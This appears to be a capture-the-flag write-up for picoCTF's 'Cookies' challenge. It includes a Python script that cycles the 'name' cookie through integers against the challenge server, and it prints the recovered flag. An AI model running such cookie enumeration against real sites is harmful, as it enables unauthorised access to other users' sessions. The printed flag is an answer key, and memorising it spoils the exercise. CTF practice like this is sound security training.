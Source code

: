 # Cookies

### Description
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:64944/

---
Each valid cookie-name has a cookie associated with the cookie name called "name". Invalid cookie-name has the value of "name=-1"

A small python script to search the HTML(hopefuly) for flag, iterating over cookie value.

```python
import requests

url = "http://mercury.picoctf.net:64944/"
for i in range(100):
    print('trying {}'.format(i))
    res = requests.get(url,cookies={"name": str(i)}).text
    if "picoCTF{" in res or "FLAG" in res or "flag" in res:
        print('cookie value : {}'.format(i))
        break
```
The script stops at cookie value 18.

We get the flag: 
> picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}